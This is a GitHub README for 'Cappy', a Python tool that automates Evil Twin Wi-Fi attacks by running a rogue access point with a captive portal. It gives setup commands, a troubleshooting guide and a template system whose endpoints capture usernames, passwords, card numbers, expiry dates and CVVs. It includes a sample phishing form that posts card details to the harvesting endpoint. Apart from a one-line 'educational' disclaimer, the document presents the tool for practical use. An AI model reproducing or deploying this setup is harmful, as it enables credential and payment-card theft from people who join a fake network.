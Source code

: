 # Readme is under construction 🚧

<div align="center">
  <img src="https://flockahh.b-cdn.net/B5860EAD-2DC4-4373-A00C-B0C219CB6D9A.png" alt="Cappy Logo" />
  
##   $${\color{orange}Cappy}$$ 
  
</div>
  
<div>
  
**Evil Twin** is a phishing technique categorized under network attacks, it involves the creation of a **rogue wireless access point (AP)** that masquerades as a legitimate network, such as a public Wi-Fi hotspot or a familiar network with a captive portal, to deceive users into connecting and unknowingly divulging their sensitive login credentials and other personal information transmitted over the compromised connection. 
</div>

<br />

> [!TIP]
> <strong>Cappy, a framework that automates the attack, must be used only in clear, educational purposes.<br /> Any action outside of that context is highly unrecommended, and may result in legal consequences</strong>

# Introduction

**Python** tool, that automates the process of setting up captive portal on Linux machines, with some tweaks.

> [!NOTE]
> This software was tested on: <strong>Kali Linux, KaliPi, ParrotOS</strong><br />
> In case of any trouble, create an issue and describe the error

<br />

**Cappy** operation scheme:

```
  Check Dependencies ---> Choose network interface
          |                ^         |                                                                         
          | missing?       |         └ Change mac address                      Run captive portal <--- Select Template
          |                |                   |                                       |                       |
  Install Dependencies -   |                   └ Menu Screen                           └ Capture credentials   |
                       |_ _|                          | start?                                                 |
                                                      └ Prepare adapter ---> Configure IP Adresses ---> Restart services

```

# Setup

**In most cases, Cappy can handle the setup by itself, so give it a try**

<br />

**1-A.** Installing Cappy with pip

  <sub>This will make 'Cappy' available from any path in the terminal</sub>
  
  ```
    $ git clone https://github.com/FLOCK4H/Cappy
    $ cd Cappy
    $ sudo pip install .
  ```

**1-B.** Running Cappy with Python
   
   <sub>We will need to install dependencies manually</sub>

```
  $ sudo apt-get update
  $ sudo apt-get install lighttpd hostapd dnsmasq
  $ cd Cappy
  $ sudo python Cappy
```

# Usage

![image](https://github.com/FLOCK4H/Cappy/assets/161654571/ce6ee823-5408-4b14-8f3c-ce33bb53737b)

```
  $ sudo Cappy
```

**Templates** are being saved to the <i> **/usr/local/share/Cappy/templates** </i>folder.

Creating a new template will result in making new directory in that path with a name of the template.

By default, there are 2 endpoints and 5 fields, that we can use in `index.html` of the template:
- /action.html -> username, password, credit, expire, cvv
- /data -> any

Example:
```
<form method='POST' action="http://10.0.0.15:80/action.html">
    <input type='text' name='credit' placeholder="CARD NUMBER"/>
    <input type='password' name='expire' placeholder="EXPIRY DATE"/>
    <input type='password' name='cvv' placeholder="CVV"/>
    <input value='Submit' type='submit'/>
</form>
```

**Device wanting to join the network will be redirected to the `index.html` of the template, where after entering credentials and submitting, will be redirected to the `action.html`, that harvests those credentials and logs to the console.**

## Troubleshooting

There are numerous reasons for why the Cappy may not work, as it all depends on the network adapter, operating system, and machine capabilities itself.
Carefully read the console when launching the framework, the errors can provide more information on what's going on.

Here are the general steps on how to debug your issue:

1. Ensure dependencies are installed manually

```
  $ sudo apt-get install hostapd dnsmasq lighttpd
```

2. Check paths for conflicts:

```
  $ ls /etc/hostapd
  $ find /etc/dnsmasq.conf
  $ find /usr/local/share/Cappy
```

3. Check logs of the services:

```
  $ sudo systemctl status hostapd
  $ sudo systemctl status dnsmasq

  # If dnsmasq status replied with - 10.0.0.1-150 range is busy, you need to change all 10.0.0.15 and 10.0.0.20-150 entries in the code to other IP and range.
```

> [!TIP]
> In case when troubleshooting steps did not work; please create an issue

## TODO

- [ ] Add run arguments
- [ ] Stable release
- [ ] PyPi release

## LICENSE

$${\color{orange}MIT}$$ 
THE SOFTWARE IS PROVIDED “AS IS”, WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.
